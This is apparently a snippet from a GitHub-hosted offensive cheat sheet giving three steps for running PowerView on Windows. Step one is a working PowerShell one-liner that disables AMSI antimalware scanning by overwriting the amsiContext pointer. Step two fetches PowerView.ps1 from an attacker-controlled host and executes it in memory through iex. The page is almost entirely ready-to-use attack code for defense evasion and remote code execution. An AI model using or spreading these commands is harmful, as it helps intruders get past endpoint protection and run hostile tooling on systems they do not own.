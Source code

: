
1. Bypass AMSI

```PowerShell
PS C:\> $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

2. Load remotely PowerView.ps1 inside memory (iex).

```PowerShell
PS C:\> (new-object system.net.webclient).downloadstring('http://Attacker:port/PowerView.ps1') | iex
```

3. Execute PowerView normally.